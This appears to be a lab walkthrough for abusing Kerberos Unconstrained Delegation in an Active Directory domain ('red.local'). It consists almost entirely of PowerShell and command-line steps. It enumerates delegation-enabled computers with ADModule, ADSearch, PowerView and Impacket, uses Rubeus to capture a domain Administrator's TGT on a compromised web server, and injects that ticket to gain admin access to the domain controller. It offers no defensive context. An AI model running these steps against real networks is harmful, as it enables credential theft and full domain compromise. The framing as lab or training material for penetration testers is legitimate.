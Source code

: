 
# Scenario

> The lab always requires some domain user credential material or Administrative priviledges on a particular machine. For a particular vulnerability we simply consider the assumptions for individual attacks.

---

# Kerberos Unconstrained Delegation(KUD) - Computer 

Assumption, we have compromised `domuser@red.local` who is a local administrator on the `WEBSRV` machine and the `WEBSRV` machine is `TrustedForDelegation`. 

## Enumeration

1. ADModule

```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll

Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
```

2. ADSearch

```bash
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
```

3. PowerView

```powershell
. .\PowerView.ps1

Get-NetComputer -Unconstrained | select dnshostname,samaccountname
```

4. Impacket

```bash
findDelegation.py red.local/domuser:'P@ssw0rd1!' -target-domain red.local
```

## Exploitation


1. Try listing the C$ on the DC to confirm we don't have administrator privileges on the DC

```bash
dir \\dc01\c$
```

2. Run `Rubeus.exe` to view the tickets.

```bash
.\Rubeus.exe triage

klist
```

3. On websrv run the following to capture TGTs

```bash
.\Rubeus.exe monitor /monitorinterval:10 /filteruser:Administrator /nowrap
```

4. Logon to the DC and list the C$ on webserver.

```bash
whoami

hostname

dir \\websrv.red.local\c$
```

5. Use Rubues.exe ptt module

```bash
.\Rubeus.exe ptt /ticket:<base64-ticket>
klist
```

6. Try listing the C$ on the DC now to confirm that we have Administrator Credential material.

```
dir \\dc01\c$
```